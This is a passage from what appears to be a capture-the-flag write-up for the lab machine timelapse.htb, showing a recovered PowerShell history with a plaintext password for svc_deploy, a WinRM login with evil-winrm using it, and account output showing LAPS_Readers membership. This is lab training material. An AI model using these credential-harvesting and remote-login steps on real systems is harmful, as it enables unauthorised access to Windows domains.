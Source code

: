 ```bash
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

it appears this was a good idea, we found plaintext password for user `svc_deploy` 

```bash
svc_deploy
E3R$Q62^12p7PLlC%KWaxuaV
```

lets login via winrm:

## Logging in as svc_deploy

```bash
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

(why -s parameter here? without it it did not work)

login successful

## User’s Group membership

```bash
net user svc_deploy
```

```bash
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
